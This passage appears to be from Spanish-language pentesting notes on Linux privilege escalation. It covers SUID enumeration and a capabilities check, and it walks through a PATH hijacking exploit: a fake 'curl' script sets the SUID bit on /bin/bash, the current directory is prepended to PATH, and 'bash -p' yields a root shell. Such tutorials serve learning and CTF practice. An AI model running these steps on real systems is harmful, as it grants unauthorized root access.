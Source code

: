 
```
ls -la ./usr/local/bin/backup -> -rwsr-xr-- 1 root admin 16484 Sep  3  2017 ./usr/local/bin/backup
# En este caso el propietario es root y el grupo al que pertenece es admin, lo siguiente es ver que usuarios están en ese grupo para poderlo ejecutar.
```
```
groups <username> # Con este comando puedes ver los grupos a los cuales pertenece un usuario.
```
<b> Path Hijacking.</b>
- ./opt/statuscheck.<br>Este es ejemplo de un binario compilado el cual el vulnerable a un <b>Path Hijacking</b>. Con el comando strings puedes listar las cadenas de carácteres imprimibles y le concatenas un less para ver la sálida del comando strings desde el inicio.<br>
```
strings ./opt/statuscheck | less 

/lib64/ld-linux-86-64.so.2
lib.so.6
system
__cxa_finalize
__libc_start_main
curl -I H   <--------- Se ejecuta el binario curl de forma relativa
http://lH
ocalhostH
AWAVA
AUATL
```
En este caso como se esta ejecutando por détras del binario curl de forma relativa y no absoluta (la forma relativa es cuando no se toma en cuenta la ruta desde la raíz). Entonces como no se toma en cuenta la ruta entera y como el binario es SUID (privilegio 4755), se puede crear un archivo llamado curl que le cambie los privilegios a las bash para ganar acceso como el usuario root.
```
touch curl
chmod +x curl

nano curl -> chmod u+s /bin/bash
```
Ahora queda modíficar el PATH para que cuando se intente ejecutar el curl, en lugar de hacerlo desde la ruta absoluta /usr/bin/curl lo haga desde la ruta actúal, tomando en cuenta el archivo que acabamos de crear con nombre curl.
```
export PATH=.:$PATH
echo $PATH	# Ver el contenido de la variable PATH y asegurarse que se haya modificado.
.:/usr/local/sbin:/usr/local/bin:/usr/sbin	# El nuevo PATH debería de inicar con un punto, que especifica la ruta actual de trabajo.
```
Ejecutas el binario y verificas que se le hayan cambiado los privilegios a las bash.
```
/opt/statuscheck

ls -l /bin/bash
-rwsr-xr-x 1 root root 1099016 May 15 2017 /bin/bash

bash -p		# Ejecutar la bash como el usuario root.
``` 
<br><br>
## systemctl list-times.
Ver las tareas que estan a punto de ejecutarse 
<br><br>
## getcap -r / 2>/dev/null.
Listar las capabilities a nivel de sistema de forma recursiva y los errores redirigirlos al stderr para no verlos en pantalla. Las capabilities nos permiten gestionar los permisos que tiene un proceso para accerder al kernel independientemente de quien lo ejecute. Lo que hacen las capabilities es dividir las llamadas de kernel priviligiadas en grupos mas pequeños de privilegios.<br>